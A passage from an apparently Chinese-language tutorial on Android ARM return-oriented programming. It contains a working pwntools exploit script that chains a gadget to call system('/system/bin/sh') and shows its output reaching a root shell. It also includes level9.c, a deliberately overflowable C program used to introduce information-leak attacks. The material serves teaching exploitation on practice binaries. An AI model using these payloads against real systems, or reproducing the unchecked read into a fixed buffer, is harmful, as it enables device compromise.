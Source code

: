 可以看到地址分别为0x000253A4和0x0003F9B4。当然了，就算获取了这些地址，我们也需要根据system()在内存中的地址进行偏移量的计算才能够成功的找到gadgets和"/system/bin/sh"在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：  
``` python
#!/usr/bin/env python
from pwn import *

#p = process('./level8')
p = remote('127.0.0.1',10001)

system_addr_str = p.recvuntil('\n')
print "str:" + system_addr_str
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

p.recvuntil('\n')

#.text:000253A4                 EXPORT system

#0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
gadget1 = system_addr + (0x00034ace - 0x000253A4)
print "gadget1 = " + hex(gadget1)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
print "/system/bin/sh addr = " + hex(r0)

payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)

p.send(payload)

p.interactive()
```
执行结果如下：  
```
$ python level8.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
system_addr = 0xb6f1e3a5
gadget1 = 0xb6f2dacf
/system/bin/sh addr = 0xb6f389b4
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) context=u:r:shell:s0
```

## 0x04 Android上的information leak

在上面的例子中，我们假设已经知道了libc.so的基址了，但是如果我们是进行远程攻击，并且原程序中没有调用system()函数怎么办？这意味着目标程序的内存布局对我们来说是随机的，我们并不能直接调用libc.so中的gadgets，因为我们并不知道libc.so在内存中的地址。其实这也是有办法的，我们首先需要一个information leak的漏洞来获取libc.so在内存中的地址，然后再控制pc去执行我们的rop。现在我们来看level9.c:  
``` c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<dlfcn.h>

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
write(STDOUT_FILENO, "Hello, World\n", 13);
vulnerable_function();
}
```